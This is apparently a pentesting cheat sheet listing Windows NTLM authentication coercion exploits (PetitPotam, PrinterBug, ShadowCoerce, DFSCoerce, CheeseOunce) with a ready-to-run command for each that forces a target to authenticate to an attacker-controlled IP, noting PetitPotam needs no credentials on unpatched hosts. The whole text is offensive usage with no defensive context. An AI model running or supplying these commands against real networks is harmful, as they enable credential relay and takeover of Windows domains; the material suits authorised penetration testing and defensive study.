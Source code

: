 # PetitPotam \ PrinterBug \ ShadowCoerce \ DFSCoerce \ CheeseOunce

Exploits to coerce Net-NTLM authentication from a computer. PetitPotam can be used without any credentials if no patch has been installed.

##### PetitPotam

    ./PetitPotam.exe attacker_IP target_IP

##### PrinterBug

    ./SpoolSample.exe target_IP attacker_IP

##### ShadowCoerce

    python3.exe shadowcoerce.py -d domain.local -u user1 -p password attacker_IP target_IP

##### DFSCoerce

    python3.exe dfscoerce.py -u user1 -d domain.local <listener_IP> <target_IP>

##### CheeseOunce via MS-EVEN

    ./MS-EVEN.exe <listener_IP> <target_IP>
